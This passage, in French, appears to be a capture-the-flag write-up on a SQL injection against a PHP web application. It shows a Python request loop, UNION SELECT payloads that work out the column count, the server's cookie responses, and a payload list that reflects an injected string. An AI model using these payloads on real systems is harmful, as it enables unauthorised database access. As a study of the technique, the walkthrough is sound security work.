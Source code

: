 ```python
    try:
        r = sess.post(url, data=d, headers=hdrs, timeout=3)
        print r.headers
        print r.content
    except:
        print "error !"
        break
    print "=================================="
```

Pour une UNION avec 3 colonnes on s'apperçoit qu'une valeur de cookie différente est retournée :  

```plain
payload = ' UNION SELECT NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=Mi01', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL,NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

--- snip ---
```

On reprend le script précédent en modifiiant juste la liste des payloads :  

```python
payloads = [
    "' UNION SELECT 'encodeme',NULL,NULL#",
    "' UNION SELECT NULL,'encodeme',NULL#",
    "' UNION SELECT NULL,NULL',encodeme'#"
    ]
```

Pour le second cas (la chaîne *encodeme* en seconde position) le script me retourne un *Set-Cookie response=MnN4dXlyc3tzLTU%3D* ce qui une fois décodé correspond à :  

```plain
$encodeme;#
```

Un préfixe et un suffixe sont rajoutés mais le principal est que l'on est finalement pas en présence d'une injection en aveugle :)  
